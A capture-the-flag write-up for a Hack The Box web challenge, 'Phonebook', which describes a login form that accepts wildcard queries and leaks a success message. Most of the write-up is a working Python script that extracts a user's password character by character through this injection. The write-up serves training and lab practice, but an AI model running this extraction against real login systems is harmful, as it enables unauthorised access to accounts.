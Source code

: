 ```yaml
---
title: Phonebook
date: 2020-11-15 00:00:00 +0200
categories: [Hack The Box, Challenges, Web]
tags: [web, injection, brute force]
---
```


We see that there is a form. At the bottom we can see the username we are supposed to use.
It doesn't take a genius to see that the password is most likely the flag.

While testing we see that we can send requests with data that follows `{'username':user, 'password':pass}`
Also, when the characters do appear in the right order in the password the request has a message `"No search results."` in it.

Thus we write a small python script to do just that:

```python
#!/usr/bin/python3
import requests
import string
import sys

# Get this from HTB
challenge_url = '178.128.40.63:31567' # CHANGE THIS

url = 'http://%s/login' % challenge_url
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

user = 'reese'
password = ''

finished = False
while not finished:
    for char in alphabet:

            query = f'{password}{char}*'
            data = {'username':user, 'password':query}

            r = requests.post(url, data=data)
            sys.stdout.write(f"\rTrying {password}{char}")

            if "No search results." in r.text: # Add character to password on successful login
                password += str(char)
                break
            
            if char == alphabet[-1]: # If reached last of characters, password must be finished 
                finished = True
                print(f"\rGot password for reese user: {password}")
```

And then you get the flag